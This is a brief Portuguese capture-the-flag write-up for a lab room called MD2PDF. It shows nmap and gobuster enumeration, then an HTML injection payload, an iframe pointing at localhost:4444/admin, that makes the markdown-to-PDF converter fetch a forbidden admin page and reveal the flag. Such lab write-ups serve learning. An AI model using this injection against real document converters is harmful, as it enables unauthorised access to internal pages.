

# _**MD2PDF**_


## _**Enumeração**_
Primeiro, vamos realizar um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A [ip_address]
> ```
Temos serviços nas portas 22, 80 e 5000

Esta sala se trata de converter um arquivo _m2_ para _pdf_  
Vamos acessar o _website_ e procurar por diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos _admin_, mas com acesso proibido  
Fui procurar maneiras de realizar _bypass_ e foi encontrado _HTML Injection_  
Testando ```<iframe src="http://localhost:4444/admin" width="100%" height="500"></iframe>```
Obtemos a flag!
